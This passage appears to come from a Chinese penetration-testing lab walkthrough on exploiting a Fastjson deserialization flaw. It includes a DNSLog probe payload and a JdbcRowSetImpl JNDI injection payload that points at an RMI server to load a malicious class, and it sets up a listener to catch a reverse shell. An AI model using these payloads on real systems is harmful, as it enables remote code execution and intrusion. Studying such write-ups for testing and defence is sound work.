 出现了`Fastjson`，说明确实是`Fastjson`，接下来用 dnslog 探测一下是否存在漏洞

```bash
{"qwq":{"@type":"java.net.Inet4Address","val":"4mmi9n.dnslog.cn"}}
```

[![](assets/1706771111-120a2bf3539c63d388c76e01d626145e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173756-14e4d980-be8a-1.png)

成功收到回显，说明存在 Fastjson 漏洞。

### 漏洞利用

接下来使用工具`jndi_tool.jar`部署恶意类 (在靶机上部署，因为域成员可能不出网)，工具链接[https://github.com/wyzxxz/jndi\_tool](https://github.com/wyzxxz/jndi_tool)

[![](assets/1706771111-fbb151485c3a5a5af93d00461d89eb32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173810-1d8411fa-be8a-1.png)

同时在靶机上监听 12345 端口，待会用于接收 shell，然后按如下 Payload 发包

```bash
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://172.30.12.5:1099/Object",
        "autoCommit":true
    }
}
```
